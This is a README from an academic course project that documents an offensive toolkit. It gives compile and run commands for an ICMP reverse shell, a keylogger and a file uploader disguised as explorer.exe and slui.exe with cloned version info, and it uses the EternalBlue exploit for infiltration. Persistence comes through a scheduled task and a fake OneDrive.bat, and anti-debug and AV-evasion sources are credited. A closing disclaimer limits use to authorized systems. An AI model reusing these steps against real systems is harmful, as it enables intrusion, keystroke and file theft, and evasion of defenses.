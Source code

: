 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we used the provided VM of Ubuntu)
    -   Python 2.7
        -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
        -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
        -   `impacket`: Run `python2 -m pip install impacket`
-   Windows 7 (for compiling implants)
    -   [Python 3.4.4](https://www.python.org/downloads/release/python-344/)
        -   [PyWin32 221](https://github.com/mhammond/pywin32/releases/tag/b221)
        -   pip==19.1.1
        -   APScheduler==3.3.0
        -   certifi==2018.11.29
        -   cffi==1.15.1
        -   chardet==3.0.4
        -   charset-normalizer==3.1.0
        -   cryptography==2.8
        -   future==0.18.3
        -   idna==2.7
        -   pycparser==2.21
        -   PyInstaller==3.2.1
        -   pyinstaller-hooks-contrib==2022.0
        -   pynput==1.6.8
        -   pytz==2023.3
        -   requests==2.20.1
        -   six==1.16.0
        -   tzdata==2023.3
        -   tzlocal==2.1
        -   urllib3==1.24.3
    -   Visual C++ 2008 compiler.
        -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
    -   Visual Studio 2010 (do not use Express version)
        -   Visual C++ 10.0 with MFC
    -   Windows SDK 7.1
    -   [Resource Hacker](http://angusj.com/resourcehacker/) (for faking Version Info)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.patch.c /D"MY_IP=\"192.168.191.128\""
```

### Keylogger (fileNew.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --onefile --paths=C:\python34\lib\site-packages --windowed -i "C:\Windows\explorer.exe" fileNew.py
```

#### FileUploader (fileUploader.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --hidden-import=queue --onefile --paths=C:\python34\lib\site-packages -i "C:\Windows\System32\slui.exe" fileUploader.py
```

Then use Resource Hacker to clone Version Info.

See `output/compiled.zip` for all Python compiled C2 payload.

## List of components when executing in attacker

-   `icmpsh-s.patch.exe` (Remote shell connect)
-   `explorer_32.exe` (Keylogger)
-   `OneDrive.bat` (Keylogger bootstrap)
-   `sluii.exe` (File Uploader)
-   `icmpsh_m3.py` (Remote shell connect)
-   `eBlue.py` (EternalBlue Exploit)
-   `mysmb.py` (Necessary for EternalBlue)

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

### Remote shell

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the scheduled task run, in order to connect,
execute on our host:

```
sudo python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```

### Keylogger

This is executed on startup by `OneDrive.bat`.
Record data is stored in `%TMP%/Install.log`

### FileUploader

This can be executed by running

```
C:\WINDOWS\sluii.exe <file>
```

## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
-   [Resource Hacker](http://angusj.com/resourcehacker/)

## Disclaimer

Do not use this on systems unless you have been given explicit permission.
This is created for an academic course. We are not responsible for any
consequences both legally and ethically that are caused by the software.